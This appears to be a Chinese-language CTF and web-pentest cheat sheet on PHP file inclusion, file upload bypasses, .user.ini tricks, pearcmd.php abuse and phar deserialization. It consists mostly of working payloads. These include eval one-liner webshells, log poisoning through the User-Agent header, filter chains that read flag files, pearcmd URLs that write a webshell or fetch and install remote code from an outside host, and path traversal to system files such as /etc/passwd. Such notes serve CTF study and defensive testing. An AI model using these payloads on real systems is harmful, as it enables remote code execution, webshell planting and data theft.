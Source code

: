 [实战 | 文件上传漏洞之最全代码检测绕过总结](https://mp.weixin.qq.com/s/6ArBgNYpsQH7WkaaJY6GfQ)
[漏洞挖掘 | 一次上传点解压缩的渗透测试](https://mp.weixin.qq.com/s/AXq2LXpBnPxmRH2ciOOnVw)

# LFI/文件包含

| Name                                                                                                                                                                                              | payload                                                                                                                                            |     |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------- | --- |
| `?file=index` 或 `?file=index.php` 有可能需要去掉 .php                                                                                                                                            |                                                                                                                                                    |     |
| `?file=php://filter/convert.iconv.UTF-8.UTF-7/resource=flag.php` <br> `?file=php://filter/convert.iconv.UTF8.CSISO2022KR\|convert.iconv.ISO2022KR.UTF16\|convert.iconv.L6.UCS2/resource=flag.php` | UTF-8 过滤器 , 可以上面两个联合用                                                                                                                  |
| PHP_INCLUDE_TO_SHELL_CHAR_DICT                                                                                                                                                                    | 文件包含即命令执行 [原理](https://goodapple.top/archives/968)                                                                                      |     |
| glob://                                                                                                                                                                                           |                                                                                                                                                    |     |
| 上传 a.zip 改为 a.jpg                                                                                                                                                                             | zip://伪协议进行包含 一句话 a.php `<?php @eval($_POST['a'])?>` <br>url: `http://xxx//index.php?url=zip:///app/upload/pic.jpg%23basic.php` 密码为 a |
| pearcmd.php 包含                                                                                                                                                                                  | [#pearcmd](#pearcmd)                                                                                                                               |
| 日志包含                                                                                                                                                                                          | 1.抓包修改 Agent 访问 2.包含日志 /var/log/nginx/access.log                                                                                         |
| phpinfo 中 `allow_url_include=On;allow_url_include=On`时                                                                                                                                          | 可 ?file=http://xxx.com/1.txt 远程包含                                                                                                             |
| 使用 [.user.ini](#userini) 进行包含                                                                                                                                                               | auto_append_file=2.jpg                                                                                                                             |
| Nginx 0.8.41 ~ 1.4.3 / 1.5.0 ~ 1.5.7                                                                                                                                                              | [CVE-2013-4547](exp/Nginx%20%E6%96%87%E4%BB%B6%E5%90%8D%E9%80%BB%E8%BE%91%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2013-4547%EF%BC%89.md) requests_demo.py    |

日志包含

```sh
'/var/log/nginx/access.log'
'/var/log/apache2/access.log'
'/var/log/httpd/access_log'
```

## .user.ini

相当于 `include('xx.txt')`, 利用.user.ini的前提是服务器开启了CGI或者FastCGI，并且上传文件的存储路径下有index.php可执行文件。
- auto_prepend_file
- auto_append_file

| Desc                      | .user.ini                                    | payload                                                                                |
| ------------------------- | -------------------------------------------- | -------------------------------------------------------------------------------------- |
| 过滤了`<?` 包含 post 数据 | `auto_append_file=php://input`               | url:`index.php` <br>body: `<?php phpinfo();?>`                                         |
| 日志包含                  | `auto_append_file=/var/log/nginx/access.log` | url:`index.php` <br> body: `1=phpinfo();`<br>usUser-Agent: `<?php eval($_POST[1]);?> ` |

## pearcmd

1. 知道 pearcmd.php 文件的路径（默认路径是/usr/local/lib/php/pearcmd.php）, phpinfo 中的 `include_path`
2. `register_argc_argv=On`
3. payload `要用burp发`

```sh
# 不出网
index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=@eval($_POST['cmd']);?>+/tmp/test.php
a1.php?file=/usr/local/lib/php/pearcmd.php&+config-create+/'<?=phpinfo()?>'+./info1.php

# 出网
index.php?+install+--installroot+&file=/usr/local/lib/php/pearcmd.php&+http://xilitter.top/123.php
```

# Python

```sh
/download?file=../../../app/__pycache__/part.cpython-311.pyc
```

# 文件上传

- `$_GET['xxx']`, 都可以用 filter 这类读文件尝试
- %00 截断 php 版本小于 5.3.4
- 上传为 zip 为 pic.jpg, zip://读取 url: `http://xxx//index.php?url=zip:///app/upload/pic.jpg%23basic.php` ,需要将#编码为%23
- 上传为 zip 用 phar 去读
- 上传时和文件相关都可能是 phar 反序列化,如 `file_exists($filename)` 考虑 phar 反序列化 `phar://abc.phar.gif/test.txt`
  - 能进行攻击的不只有 file_get_contents，所有的文件函数都会导致这个问题
- 压缩包软链接，传到/tmp/data 下, ，这个软链接指向 flag，即可获取 flag

```sh
# 触发  phar 反序列化
fileatime / filectime / filemtime
stat / fileinode / fileowner / filegroup / fileperms
file / file_get_contents / readfile / fopen
file_exists / is_dir / is_executable / is_file / is_link / is_readable / is_writeable / is writable.
parse_ini_file
unlink
copy
```

# 文件读取

url=file://127.0.0.1/etc/passwd
url=file:///etc/passwd
